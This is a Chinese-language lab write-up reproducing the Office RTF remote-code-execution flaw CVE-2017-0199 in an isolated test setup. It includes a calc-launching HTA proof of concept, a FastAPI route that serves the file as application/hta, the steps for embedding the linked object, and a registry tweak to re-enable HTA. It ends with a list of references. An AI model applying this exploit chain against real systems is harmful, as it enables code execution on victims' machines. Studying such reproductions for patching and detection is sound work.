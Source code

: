 ```yaml
---
date: 2024-06-14
---
```


# CVE-2017-0199

---

- [CVE-2017-0199](#cve-2017-0199)
  - [简介](#简介)
  - [复现环境](#复现环境)
  - [漏洞复现](#漏洞复现)
  - [参考材料](#参考材料)

---

## 简介

> [Tuuu Nya's blog | 一个想当黑客的艺术家 ✨ (hackersb.cn)](https://www.hackersb.cn/hacker/228.html)

CVE-2017-0199是首个Microsoft Office RTF漏洞，漏洞发布日期为2017年4月11日

受影响系统包括：

- Microsoft Office 2016
- Microsoft Office 2013
- Microsoft Office 2010
- Microsoft Office 2007

当用户打开包含嵌入式漏洞的文档时，此漏洞允许恶意攻击者下载并执行包含PowerShell命令的Visual Basic脚本。

微软官方对该漏洞的通告：[CVE-2017-0199 - Security Update Guide - Microsoft - Microsoft Office/WordPad Remote Code Execution Vulnerability w/Windows](https://msrc.microsoft.com/update-guide/en-US/advisory/CVE-2017-0199)

---

## 复现环境

- 靶机: 
  - [Win7](https://next.itellyou.cn/Original/#cbp=Product?ID=6f677346-0a09-43fa-b60d-e878ed7625a0)+[Office2010](https://msdn.itellyou.cn/)
  - IP: `192.168.1.14`

- 攻击机 Kali
  - IP: `100.1.1.131`

---

## 漏洞复现

> [CVE-2017-0199漏洞复现过程 · 浮萍's Blog (fuping.site)](https://fuping.site/2017/04/18/CVE-2017-0199漏洞复现过程/)

很多漏洞复现的文章都提到了使用 Apache 服务器, 其目的都指向自定义响应 `Content-type`

因此这里我们只需要能够自定义响应的 `Content-type` 就不一定需要 Apache 服务器

可以用 [Python/use_case/FileServer/FastAPI/fileserver.py · main · 33 2 / DailyNotesCodeBackup · GitLab](https://gitlab.com/ayusummer233/dailynotescodebackup/-/blob/main/Python/use_case/FileServer/FastAPI/fileserver.py?ref_type=heads)

这里也以这个 Fastapi 写的 FileServer 为例

在路由里指定 `Content-type` 即可

----

编写一个弹计算器的 POC:

`calc.hta`

```xml
<script>
    a=new ActiveXObject("WScript.Shell");
    a.run('%windir%\\System32\\cmd.exe /c calc.exe', 0);window.close();
</script>
```

---

用 Office2016 新建一个 word 文档保存为 `office2016.docx` 将其放到 FileServer 的 `upload` 目录下并重命名为 `office2016docx.rtf`

![image-20240614095147296](http://cdn.ayusummer233.top/DailyNotes/202406140951201.png)

在靶机上用 Office2016 新建一个 word 文档, `插入->对象->由文件创建`

填写 FileServer 中刚才放置的 `office2016docx.rtf` 的下载链接, 这里是 `http://100.1.1.131:8000/download/office2016docx.rtf`

并勾选 `链接到文件`

![image-20240613180746628](http://cdn.ayusummer233.top/DailyNotes/202406131807154.png)

点击 `确定` 后即会请求该文件

![image-20240613180914152](http://cdn.ayusummer233.top/DailyNotes/202406131809247.png)

保存为 rtf 文件 `Office2016docx-insert-rtf.rtf`

![image-20240613181301997](http://cdn.ayusummer233.top/DailyNotes/202406131813096.png)

---

解下来就需要对这个链接的 rtf 文件动手了, 使用前面编写的弹计算器的 POC `calc.hta` 重命名并替换掉前面  FileServer 上放置的 `office2016docx.rtf`

![image-20240614095637939](http://cdn.ayusummer233.top/DailyNotes/202406140956046.png)

然后改下 `fileserver.py` 中文件下载的路由, 让下载 `rtf` 文件的响应中的 `Content-type` 为 `application/hta`:

```python
@app.get("/download/{file_path:path}")
async def download_file(file_path: str):
    file_location = UPLOAD_DIRECTORY / Path(file_path)
    if file_location.exists():
        if file_location.suffix == ".rtf":
            media_type = "application/hta"
        else:
            return FileResponse(str(file_location))

        return FileResponse(str(file_location), media_type=media_type)
```

![image-20240614095814853](http://cdn.ayusummer233.top/DailyNotes/202406140958961.png)

---

双击打开靶机 Win7 上的 `Office2016docx-insert-rtf.rtf`

如果报错如下:

![image-20240614095953403](http://cdn.ayusummer233.top/DailyNotes/202406140959527.png)

根据 [CVE-2017-0199复现失败解决方案-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/2002507) 中提到的, 这是因为注册表默认禁用了ActiveX执行HTA

解决方案为将 `Win+R -> 输入regedit -> 回车`  注册表项 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility\{3050f4d8-98b5-11cf-BB82-00AA00BDCE0B}` 从 `400` 改为 `0`

![image-20240614102032895](http://cdn.ayusummer233.top/DailyNotes/202406141020003.png)

![image-20240614102057166](http://cdn.ayusummer233.top/DailyNotes/202406141020290.png)



![image-20240616171919988](http://cdn.ayusummer233.top/DailyNotes/202406161719114.png)

---


## 参考材料

- 分析
  - [CVE-2017-0199漏洞分析-CSDN博客](https://blog.csdn.net/qq_37672864/article/details/89353787)
- 利用工具
  - [GitHub - bhdresh/CVE-2017-0199: Exploit toolkit CVE-2017-0199 - v4.0 is a handy python script which provides pentesters and security researchers a quick and effective way to test Microsoft Office RCE. It could generate a malicious RTF/PPSX file and deliver metasploit / meterpreter / other payload to victim without any complex configuration.](https://github.com/bhdresh/CVE-2017-0199)

- 复现过程
  - 手工复现
    - [对CVE-2017-0199的一次复现过程与内网穿透的利用 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/26522540)
    - [CVE-2017-0199漏洞复现过程 · 浮萍's Blog (fuping.site)](https://fuping.site/2017/04/18/CVE-2017-0199漏洞复现过程/)
    - [Office CVE-2017-0199复现 - Junay的博客 (delcoding.github.io)](https://delcoding.github.io/2017/11/office-cve-2017-0199/)
    - [Tuuu Nya's blog | 一个想当黑客的艺术家 ✨ (hackersb.cn)](https://www.hackersb.cn/hacker/228.html)
    - [CVE-2017-0199漏洞复现过程 · 浮萍's Blog (fuping.site)](https://fuping.site/2017/04/18/CVE-2017-0199漏洞复现过程/)
    - [code2sec.com/office漏洞CVE-2017-0199复现：HTA Handler Vulnerability（一）.md at master · bit4woo/code2sec.com · GitHub](https://github.com/bit4woo/code2sec.com/blob/master/office漏洞CVE-2017-0199复现：HTA Handler Vulnerability（一）.md)
    - [Office CVE-2017-0199 复现 - X1r0z Blog (exp10it.io)](https://exp10it.io/2019/07/office-cve-2017-0199-复现/)
    - [CVE-2017-0199 Microsoft Office 逻辑漏洞复现和利用 | Hacked By Fish_o0O (fish-o0o.github.io)](https://fish-o0o.github.io/2018/03/07/CVE-2017-0199 Microsoft Office 逻辑漏洞复现和利用/)
    - [Office远程代码执行漏洞CVE-2017-0199复现 - SecurityKid - 博客园 (cnblogs.com)](https://www.cnblogs.com/SecurityKid/p/7384918.html)
  - MSF
    - [OFFICE OLE2LINK 漏洞 (CVE-2017-0199) 利用 - Gorgias'Blog](https://gorgias.me/2017/05/07/CVE-2017-0199-利用/)
    - [CVE-2017-0199 复现 - 40huo's - 知至知终](https://www.40huo.cn/blog/cve-2017-0199.html)
  - 复现失败解决方案
    - [CVE-2017-0199复现失败解决方案-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/2002507)

- 检测对抗
  - [Microsoft Office OLE2Link(CVE-2017-0199)漏洞利用技术分析与防护方案 – 绿盟科技技术博客 (nsfocus.net)](https://blog.nsfocus.net/microsoft-office-ole2link-exploits-technology-analysis/)
  - [对利用CVE-2017-0199漏洞的病毒变种的监测与分析-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1044292)
  - 野外样本分析
    - [CVE-2017-8570首次公开的野外样本及漏洞分析 (seebug.org)](https://paper.seebug.org/520/)

